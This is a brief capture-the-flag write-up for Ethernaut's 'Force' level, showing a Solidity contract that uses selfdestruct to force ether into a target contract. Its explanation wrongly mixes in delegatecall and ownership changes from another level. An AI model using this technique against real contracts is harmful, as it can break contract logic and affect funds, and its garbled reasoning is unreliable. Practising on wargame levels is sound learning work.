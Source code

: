 # Level 6 Force

Challenge URL = https://ethernaut.zeppelin.solutions/level/0x24d661beb31b85a7d775272d7841f80e662c283b

# Delegation Background Info 
Send ethers to the target address to make its balance greater than zero.  use the fallback function from another contract call. 

# problem
Some contracts will simply not take your money ¯\_(ツ)_/¯

The goal of this level is to make the balance of the contract greater than zero.
Things that might help:
-Fallback methods
-Sometimes the best way to attack a contract is with another contract.
-See the Help page above, section "Beyond the console"


# Solution
Force:  There is no direct way to change the owner.  Can use delegatecall in the fallback function.  Using delegatecall has been an attack vector on mutliple attacks.     

1.  Create new instance
2. Use Remix to create an attacking contract that will exploit the selfdestruct(address) from the attacking contract.  
3.  contract Selfdestruct{
  function Selfdestruct() payable{}
  function attack(){
    selfdestruct(0x..);
  }
}
4.  Submit.



